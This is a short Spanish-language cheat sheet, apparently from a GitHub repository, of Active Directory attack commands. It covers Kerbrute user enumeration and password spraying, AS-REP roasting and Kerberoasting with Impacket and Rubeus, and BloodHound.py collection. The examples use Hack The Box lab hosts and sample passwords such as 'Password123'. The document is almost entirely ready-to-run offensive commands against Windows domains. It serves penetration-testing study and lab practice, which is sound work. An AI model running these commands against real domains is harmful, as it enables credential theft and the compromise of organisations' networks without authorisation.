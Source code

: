 # Active Directory CheatSheet

## Kerbrute

### Enumeración de usuarios

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local users.txt
```

### Password Spraying

```bash
sudo ntpdate 10.10.11.129
./kerbrute passwordspray --dc CONTROLLER.local -d CONTROLLER.local users.txt Password123
```

## AS-REP Roasting

### Impacket

```bash
for user in $(cat users.txt); do impacket-GetNPUsers -dc-ip <ip_de_dominio> <dominio>/${user} -no-pass | grep -v Impacket; done
```

### Rubeus

```powershell
.\Rubeus.exe asreproast # ¿como admin? Ver si se necesitan credenciales
# .\Rubeus.exe asreproast /creduser:htb.local\amanda /credpassword:Password123 # TODO Verificar
```

## Kerberoasting

### Impacket

```bash
impacket-GetUserSPNs {dominio/usuario:contraseña} -dc-ip {ip de dominio} -request
```

### Rubeus

```powershell
.\Rubeus.exe kerberoast # Como Administrator
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Password123
```

## BloodHound

### BloodHound.py

**Nota: Al recopilar la info con la última versión es recomendable usar a su vez también la última versión del visualizador.**

#### Setup

[Repositorio Github](https://github.com/fox-it/BloodHound.py)

```bash
pyenv ...
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python setup.py install
```

#### Uso

```bash
python bloodhound.py -u hope.sharp -p 'Password123' -d search.htb -ns 10.10.11.129 -c All
```
